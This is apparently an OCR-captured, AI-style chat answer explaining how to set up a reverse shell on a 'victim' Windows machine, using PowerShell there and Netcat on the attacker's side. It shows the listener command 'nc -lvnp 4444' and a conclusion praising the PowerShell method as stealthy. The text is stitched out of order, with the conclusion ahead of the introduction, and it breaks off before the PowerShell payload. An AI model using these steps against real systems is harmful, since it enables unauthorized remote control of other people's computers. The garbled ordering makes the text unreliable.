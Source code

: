 How It Works:

    The PowerShell script connects to the attacker's machine.

    It listens for commands sent by the attacker.

    The attacker can send system commands that will be executed on the victim machine.

    The output of the commands is sent back to the attacker.

    The reverse shell terminates when the attacker sends the exit command.

Conclusion

This guide outlines how to establish a reverse shell using Python and Netcat, with full file upload, download, and command execution capabilities. Additionally, an alternative PowerShell reverse shell method was provided as a more stealthy and widely available




Absolutely! Let's break everything down clearly, step-by-step.
What is a Reverse Shell?

A reverse shell is a type of connection where the target (victim) machine connects back to the attacker's machine, allowing the attacker to issue commands remotely. It's called a "reverse" shell because in a traditional shell, the attacker connects directly to the victim machine, but in a reverse shell, the victim machine connects to the attacker.
How Does a Reverse Shell Work?

    Victim Side: The victim machine (usually running Windows or Linux) establishes a connection to the attacker's machine.

    Attacker Side: The attacker's machine waits for the victim's connection on a specific port.

    Communication: Once the connection is established, the attacker sends commands to the victim, and the victim executes them.

In this case, we are using PowerShell (which is built into Windows) to set up a reverse shell on the victim's machine and Netcat (nc) on the attacker's machine to listen for incoming connections.
Step-by-Step PowerShell Reverse Shell
1. Set up the Attacker's Machine (Listening for the Connection)

On the attacker’s machine (Linux), we'll use Netcat to listen on a specific port for incoming connections.

Command:

    Open a terminal on your attacker machine (Kali Linux or any other Linux distribution).

    Start Netcat to listen on a specific port (e.g., port 4444):

    nc -lvnp 4444

        -l: Tells Netcat to listen for incoming connections.

        -v: Enables verbose mode to see details about the connection.

        -n: Tells Netcat not to resolve DNS (no name resolution).

        -p 4444: Specifies the port you want Netcat to listen on (in this case, port 4444).

Now, Netcat is actively waiting for a connection from the victim machine.
2. Set up the Victim's Machine (PowerShell Reverse Shell)
